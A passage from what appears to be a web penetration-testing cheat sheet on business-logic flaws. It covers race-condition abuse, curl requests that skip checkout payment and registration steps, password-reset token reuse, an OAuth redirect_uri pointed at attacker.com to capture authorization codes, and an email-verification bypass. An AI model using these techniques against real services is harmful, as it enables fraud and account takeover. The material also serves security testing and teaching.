 **Real-world race condition examples:**

```bash
# Double spending (crypto/payment)
# Send 2 simultaneous withdrawal requests before balance check

# Duplicate voucher usage
# Redeem same code multiple times in parallel

# Inventory overflow
# Purchase item with quantity=999999 before stock validation
```

### Workflow Bypass

```bash
# Normal checkout flow:
# 1. Add to cart → 2. Shipping info → 3. Payment → 4. Confirmation

# Bypass payment step:
# Skip directly from step 2 to step 4
curl -X POST http://target.com/checkout/confirm \
    -H "Cookie: session=user_session" \
    -d "order_id=12345"

# Multi-step form bypass
# Step 1: /register/step1 (email)
# Step 2: /register/step2 (profile)
# Step 3: /register/step3 (verification)

# Skip to step 3 without completing step 2:
curl -X POST http://target.com/register/step3 \
    -d "email=test@example.com&verified=true"
```

### Account Takeover via Logic Flaws

```bash
# Password reset token reuse
# 1. Request password reset for victim
# 2. Victim receives token
# 3. Attacker requests reset for same email
# 4. Attacker uses victim's old token (if not invalidated)

# OAuth redirect_uri manipulation
curl "http://target.com/oauth/authorize?client_id=123&redirect_uri=http://attacker.com&response_type=code"

# Email verification bypass
# Register with victim@example.com
# Change email to attacker@evil.com before verification
# Click verification link → attacker@evil.com is verified
```

---